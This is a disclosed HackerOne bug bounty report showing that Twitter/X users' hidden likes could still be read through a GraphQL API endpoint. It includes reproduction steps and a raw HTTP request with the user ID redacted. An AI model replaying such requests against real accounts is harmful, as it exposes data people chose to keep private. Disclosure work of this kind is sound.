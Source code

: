 # Ability to see hidden likes

## Report Details
- **Report ID**: 2140960
- **URL**: https://hackerone.com/reports/2140960
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-09-08T15:27:29.531Z
- **Disclosed**: 2024-05-10T22:07:52.439Z

## Reporter
- **Username**: mirhat
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:**

Twitter/X recently added an feature that allows you to hide your likes. It's still possible to see the liked tweets via graphql API.

**Description:** 
I was testing the GraphQL API and it's still possible to view tweets.
You need to be subscribed to X premium to hide your likes. However you don't need a premium account to reproduce this vulnerability.

Twitter user with the id of `████████`has their likes hidden. However if you copy the request below and send it you will see JSON data of likes returned back to you. 

## Steps To Reproduce:

  1. Copy the raw http request below
  1. Paste it into your proxy (change the userId in the url if you want to test against another user. %22%3A%22████%22%2C%22 )
  1. Send the request

## Supporting Material/References:

Vulnerable HTTP request

``` 
GET /i/api/graphql/lVf2NuhLoYVrpN4nO7uw0Q/Likes?variables=%7B%22userId%22%3A%22██████████%22%2C%22count%22%3A20%2C%22includePromotedContent%22%3Afalse%2C%22withClientEventToken%22%3Afalse%2C%22withBirdwatchNotes%22%3Afalse%2C%22withVoice%22%3Atrue%2C%22withV2Timeline%22%3Afalse%7D&features=%7B%22responsive_web_graphql_exclude_directive_enabled%22%3Atrue%2C%22verified_phone_label_enabled%22%3Afalse%2C%22creator_subscriptions_tweet_preview_api_enabled%22%3Atrue%2C%22responsive_web_graphql_timeline_navigation_enabled%22%3Atrue%2C%22responsive_web_graphql_skip_user_profile_image_extensions_enabled%22%3Afalse%2C%22tweetypie_unmention_optimization_enabled%22%3Atrue%2C%22responsive_web_edit_tweet_api_enabled%22%3Atrue%2C%22graphql_is_translatable_rweb_tweet_is_translatable_enabled%22%3Atrue%2C%22view_counts_everywhere_api_enabled%22%3Atrue%2C%22longform_notetweets_consumption_enabled%22%3Atrue%2C%22responsive_web_twitter_article_tweet_consumption_enabled%22%3Afalse%2C%22tweet_awards_web_tipping_enabled%22%3Afalse%2C%22freedom_of_speech_not_reach_fetch_enabled%22%3Atrue%2C%22standardized_nudges_misinfo%22%3Atrue%2C%22tweet_with_visibility_results_prefer_gql_limited_actions_policy_enabled%22%3Atrue%2C%22longform_notetweets_rich_text_read_enabled%22%3Atrue%2C%22longform_notetweets_inline_media_enabled%22%3Atrue%2C%22responsive_web_media_download_video_enabled%22%3Afalse%2C%22responsive_web_enhance_cards_enabled%22%3Afalse%7D HTTP/2
Host: twitter.com
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: */*
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://twitter.com/██████/likes
Content-Type: application/json
X-Twitter-Auth-Type: OAuth2Session
X-Csrf-Token:
X-Twitter-Client-Language: en
X-Twitter-Active-User: yes
X-Client-Transaction-Id: 
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Authorization: 
```

## Impact

Viewing hidden likes

## Attachments
No attachments

